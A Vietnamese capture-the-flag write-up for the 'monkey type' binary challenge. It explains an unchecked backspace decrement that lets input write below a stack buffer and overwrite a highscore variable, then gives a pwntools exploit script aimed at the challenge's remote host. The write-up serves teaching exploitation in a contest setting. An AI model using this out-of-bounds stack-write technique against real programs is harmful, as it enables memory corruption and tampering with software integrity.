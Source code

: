 # monkey type

## Source

<details><summary> Source </summary></details>

## Ý tưởng

- wu tham khảo [link ở đây](https://gerrardtai.com/coding/greyctf#monkeytype)

- Đầu tiên, chương trình sẽ cho ta flag khi `highscore > 0xffffffff`
- Trong vòng lặp ta thấy chương trình đang xử lí các kí tự ta nhập vào, ở đây

```c
if ( ch_0 == 0x7F )
      {
        update_text(mainwin, buf, --idx);
      }
```

- khi `ch_0 == 0x7F` chương trình sẽ giảm idx xuống mà không kiểm tra giá trị idx có lớn hơn 0 không, chức năng update_text sẽ ghi lên stack, vậy ta có lỗi Out-of-bound

## Khai thác

```
char buf[64]; // [rsp+50h] [rbp-50h] BYREF
uint64_t highscore; // [rsp+8h] [rbp-98h]
```

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('monkeytype', checksec=False)

context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''


                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('34.124.157.94', 12321)
else:
        p = process(exe.path)

GDB()
s(b' '*0x48)    # 0x98 - 0x50
s(b'A'*5)
# output = p.recvall()
# print(output[output.index(b'flag:\n'):])
```